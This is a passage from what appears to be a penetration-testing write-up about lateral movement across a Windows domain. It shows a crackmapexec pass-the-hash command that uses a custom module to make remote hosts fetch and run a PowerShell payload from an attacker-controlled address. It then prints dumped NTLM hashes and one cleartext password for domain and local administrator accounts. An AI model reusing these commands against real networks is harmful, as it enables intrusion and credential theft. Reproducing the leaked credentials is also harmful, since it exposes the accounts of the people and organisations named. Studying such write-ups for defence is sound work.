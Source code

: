 
we should now be able to access our powershell payload on `http://attacker:80/payload` with this in mind we can now use `crackmapexec` and the module I created to begin to move lateraly


### moving lateraly with SMB


Now we can be big hacker man and execute the following command
```bash
crackmapexec smb windows_servers -d POLO -u smonroe -H 1e1d8d26da45529aa70ccba3ce84de83 -M cobaltloadps -o URL=http://10.9.254.6/payload
```



### PWN
![Crackmapexec Output](images/CRACKMAP1.jpg)


and just like that we have pwn'd 3 new hosts and auto dumped credentials stored in memory gaining us 3 new local administrator accounts and 1 new domain user


```
PHLWP70A\Administrator 1ddb9943b5152c571b20de54a455c7e6
POLO\jhorn 29089ca93410d89d02aaf55cb4cefb4a
PHLWP70A\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
POLO\jhorn Honda600
DEVSQL01\Guest 31d6cfe0d16ae931b73c59d7e0c089c0
DEVSQL01\Administrator d36b166a247b1d53fc3ec29d0ad8d689
```
### current PWN list
